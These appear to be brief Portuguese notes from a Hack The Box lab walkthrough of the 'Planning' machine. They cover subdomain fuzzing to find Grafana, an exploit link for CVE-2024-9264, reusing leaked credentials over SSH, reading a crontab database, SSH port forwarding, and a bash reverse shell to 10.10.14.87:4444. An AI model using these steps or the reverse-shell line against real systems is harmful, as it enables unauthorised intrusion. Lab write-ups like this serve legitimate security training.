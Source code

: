 nmap: 22,80

ffuf -w /usr/share/seclist/Discovery/DNS/bitquark-subdomains-top100000.txt -H "Host: FUZZ.planning.htb" -u http://planning.htb/ -fc 301: grafana

grafana CVE-2024-9264
https://github.com/nollium/CVE-2024-9264

env
ele da login e senha do enzo

ssh enzo@ip
ja obitivemos a user.txt


cat /opt/crontabs/crontab.db

netstat -tuln
sh -L 8000:127.0.0.1:8000 enzo@planning.htb
root:senha do crontabs

/bin/bash -c '/bin/bash -i >& /dev/tcp/10.10.14.87/4444 0>&1'
terminado com a flag root


